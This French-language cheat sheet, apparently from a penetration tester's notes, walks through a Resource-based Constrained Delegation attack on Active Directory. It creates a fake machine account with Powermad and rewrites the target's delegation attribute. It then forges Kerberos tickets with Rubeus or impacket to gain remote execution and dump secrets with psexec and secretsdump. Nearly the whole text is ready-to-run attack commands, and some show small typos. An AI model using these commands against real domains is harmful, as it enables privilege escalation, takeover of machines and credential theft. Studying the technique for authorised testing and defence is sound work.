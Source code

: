 # Resource-based Constrained Delegation

_**Note :** Cette attaque est possible si un utilisateur dispose des droits "GenericAll" sur un objet ordinateur._

_**Objectif :** Devenir administrateur de l'objet ordinateur (\<MACHINE-CIBLE>)._

#### Connexion à une machine du domaine

<pre><code><strong>$ evil-winrm -u "" -p '' -i -s /home/kali/tools/Conditionsme code
</strong>#>PowerView.ps1
#>Powermad.ps1
#>upload Rubeus.exe</code></pre>

#### Conditions

```
#>Get-DomainObject -Identity "dc=domain,dc=com" -Domain domain.com -> Suppérieur à 0
#>Get-DomainController -> Suppérieur ou égale à 2012
#>Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity -> Vide
```

#### Réalisation de l'attaque

```
#### Création d'une fausse machine sur le domaine
#>New-MachineAccount -MachineAccount <FAKE-MACHINE> -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
#>Get-DomainComputer <FAKE-MACHINE> -> Récupération du SID

#### Indiquer à <MACHINE-CIBLE> qu'elle doit faire confiance au compte <FAKE-MACHINE>
#>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;<SID-FAKE-MACHINE>)"
#>$SDBytes = New-Object byte[] ($SD.BinaryLength)
#>$SD.GetBinaryForm($SDBytes, 0)
#>Get-DomainComputer <MACHINE-CIBLE> | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

#### Génération des tickets Kerberos et RCE

Windows :&#x20;

```
#>./Rubeus.exe hash /password:123456 /user:<FAKE-MACHINE> /domain:<DOMAINE>
#>./Rubeus.exe s4u /user:<FAKE-MACHINE> /rc4:<RC4-PASSWORD> /impersonateuser:<ADMIN-MACHINE-CIBLE> /msdsspn:cifs/<MACHINE-CIBLE>.<DOMAINE> /domain:<DOMAINE> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /ptt
```

Linux :&#x20;

```
$ impacekt-getST -spn "cifs/<MACHINE-CIBLE>.<DOMAINE>" -impersonate <ADMIN-MACHINE-CIBLE> -dc-ip <IP-DC> '<DOMAINE>/<FAKE-MACHINE>$:123456'
$ export KRB5CCNAME=<ADMIN-MACHINE-CIBLE>.ccache
$ klist
$ impacket-psexec -k ['<DOMAINE>/<USER>@]<MACHINE-CIBLE>.<DOMAINE> or impacket-secretsdump -k <MACHINE-CIBLE>.<DOMAINE>
```

